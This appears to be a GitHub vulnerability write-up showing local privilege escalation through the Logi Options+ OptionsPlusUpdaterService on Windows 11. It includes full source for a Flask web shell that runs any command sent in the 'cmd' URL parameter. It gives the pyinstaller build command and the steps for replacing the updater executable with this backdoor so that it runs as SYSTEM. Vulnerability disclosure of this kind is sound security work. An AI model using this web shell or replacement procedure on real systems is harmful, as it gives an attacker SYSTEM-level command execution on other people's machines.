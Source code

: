 # windows Logi OptionsPlus OptionsPlusUpdaterService is Vulnerable Services

test on windows 11 22000.1098   Logi Options+ 1.0.5155

#Vulnerability reproduction

The first step：open services.msc find OptionsPlusUpdaterService

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic1.png)

Step 2：Prepare a malicious program

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic2.png)

    from flask import Flask, request
    import os

    app = Flask(__name__)

    @app.route('/')
    def hello_world():
        r = request.args.getlist('cmd')  #Reception? cmd= parameter
        a=os.popen(r[0])  #Execute system commands
        l = a.read()
        return l  #return

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=14145, debug=True)  #Listen HTTP port 14145



I was useing python3 flask write a malicious exe .It can listenHTTP port 14145 and execute system commands.

Using commands pyinstaller.exe --onefile --windowed -F -w python_test.py make a malicious exe.


Step 3：Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe.

for me Logi OptionsPlus installation path is :C:\Program Files\LogiOptionsPlus

1.Delete the old logioptionsplus_updater.exe or anything to make logioptionsplus_updater.exe disappear

2.Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic3.png)

Step 3：Start the OptionsPlusUpdaterService

If OptionsPlusUpdaterService is already start you can restart it

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic4.png)

Step 4：Wait OptionsPlusUpdaterService start and execute the system commands

When I see OptionsPlusUpdaterService start in Taskmgr.exe whit SYSTEM, Then I can Open browser input http://127.0.0.1:14145?cmd=whoami

Wait..........

for...

it.

NT SYSTEM

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic5.jpg)
